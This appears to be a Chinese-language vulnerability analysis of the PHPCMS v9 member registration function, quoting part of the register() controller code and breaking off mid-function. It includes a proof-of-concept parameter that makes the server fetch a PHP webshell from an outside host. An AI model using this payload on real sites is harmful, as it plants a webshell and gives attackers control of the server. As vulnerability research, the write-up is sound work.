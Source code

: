 ![](https://ws3.sinaimg.cn/large/006tKfTcgy1fi8x9qtnk3j31kw0jv42q.jpg)

# 漏洞分析：

通过复现过程可以看到漏洞URL为：  
`http://phpcms.localhost/index.php?m=member&c=index&a=register&siteid=1`

> 可以确定是member模块的问题，以前我分析过phpcms的程序，所以就不从index.php看了，我们直接去打开member模块的控制器文件如下：

`/Users/striker/www/phpcmsv9/phpcms/modules/member/index.php`

## index.php

动态调试跟踪了一下index.php 。  
好吧，晕了。。。

## member/index.php

### 正常请求

正常请求中info参数和poc中的参数好像有些不同

![](https://ws3.sinaimg.cn/large/006tKfTcgy1fi8zbde0cwj31kw0f0ago.jpg)

正常请求:`info[Birthday]`  
poc的：`info[content]=<img src=http://files.hackersb.cn/webshell/antSword-shells/php_assert.php#.jpg>`

看完最后，中括号里的是可以调用的函数

### register\(\)函数：

```
public function register() {
        $this->_session_start();
        //获取用户siteid
        $siteid = isset($_REQUEST['siteid']) && trim($_REQUEST['siteid']) ? intval($_REQUEST['siteid']) : 1;
        //定义站点id常量
        if (!defined('SITEID')) {
           define('SITEID', $siteid);
        }

        //加载用户模块配置
        $member_setting = getcache('member_setting');
        if(!$member_setting['allowregister']) {
            showmessage(L('deny_register'), 'index.php?m=member&c=index&a=login');
        }
        //加载短信模块配置
         $sms_setting_arr = getcache('sms','sms');
        $sms_setting = $sms_setting_arr[$siteid];        

        header("Cache-control: private");
        if(isset($_POST['dosubmit'])) { //如果点击了提交注册，进入注册流程
            if($member_setting['enablcodecheck']=='1'){//开启验证码
                if ((empty($_SESSION['connectid']) && $_SESSION['code'] != strtolower($_POST['code']) && $_POST['code']!==NULL) || empty($_SESSION['code'])) {
                    showmessage(L('code_error'));
                } else {
                    $_SESSION['code'] = '';
                }
            }
```
